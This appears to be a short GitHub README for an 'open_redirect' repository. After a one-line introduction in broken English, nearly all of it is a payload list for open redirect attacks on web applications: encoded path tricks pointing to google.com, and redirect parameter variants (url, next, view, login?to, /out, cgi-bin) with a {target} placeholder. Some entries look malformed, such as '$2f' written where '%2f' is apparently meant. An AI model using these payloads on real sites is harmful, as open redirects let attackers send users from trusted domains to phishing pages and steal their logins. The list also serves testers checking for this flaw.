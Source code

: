 # open_redirect


just way to clear how open redirect work 
most of the time it be with login  and singout pages 


/%09/google.com

/%5cgoogle.com

//www.google.com/%2f%2e%2e

//www.google.com/%2e%2e

//google.com/

//google.com/%2f..

//\google.com

/\victim.com:80%40google.com

Possible open redirect parameters

?url=http://{target}

?url=https://{target}

?next=http://{target}

?next=https://{target}

?url=https://{target}

?url=http://{target}

?url=//{target}

?url=$2f%2f{target}

?next=//{target}

?next=$2f%2f{target}

?url=//{target}

?url=$2f%2f{target}

?url=//{target}

/redirect/{target}

/cgi-bin/redirect.cgi?{target}

/out/{target}

/out?{target}

/out?/{target}

/out?//{target}

/out?/\{target}

/out?///{target}

?view={target}

?view=/{target}

?view=//{target}

?view=/\{target}

?view=///{target}

/login?to={target}

/login?to=/{target}

/login?to=//{target}

/login?to=/\{target}

/login?to=///{target}

